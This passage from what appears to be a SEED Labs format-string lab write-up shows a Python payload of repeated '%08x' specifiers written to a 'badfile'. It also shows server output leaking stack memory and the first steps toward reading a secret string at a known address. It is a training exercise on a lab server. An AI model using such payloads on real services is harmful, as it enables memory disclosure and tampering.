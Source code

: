 ```python
# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "AAAA" + " %08x"*64

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[0:0+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

In the output we see our input (AAAA), some address and values printed, and finally the bytes from our input (414141):

```Rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd550
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffd478
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | AAAA 11223344 00001000 08049db5 080e5320 080e61c0 ffffd550 ffffd478 080e62d4 080e5000 ffffd518 08049f7e ffffd550 00000000 00000064 08049f47 080e5320 000005dc 000005dc ffffd550 ffffd550 080e9720 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 a3062500 080e5000 080e5000 ffffdb38 08049eff ffffd550 000005dc 000005dc 080e5320 00000000 00000000 00000000 ffffdc04 00000000 00000000 00000000 000005dc 41414141The target variable's value (after):  0x11223344
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

From this task, we conclude that to access the variable we sent in the beginning of the input, we must access the 64º position in memory (We'll keep this number in mind, as hinted that it will be essential for most of the subsequent tasks).

### Task 2.B

In this task, the goal is to print the [secret message string](https://github.com/seed-labs/seed-labs/blob/master/category-software/Format_String/Labsetup/server-code/format.c#L23) to the console. The address of this string (`0x080b4008`) is printed from the server when a request is made, as seen below:

```rust
(...)
server-10.9.0.5  | The secret message's address:  0x080b4008
(...)
```

In the provided python script we change the _number_ variable to the desired address (`0x080b4008`), and since the program has a little-endian architecture we must store its bytes in the reverse order, which is easily done with the `byteorder='little'` argument in the `.to_bytes()` function.
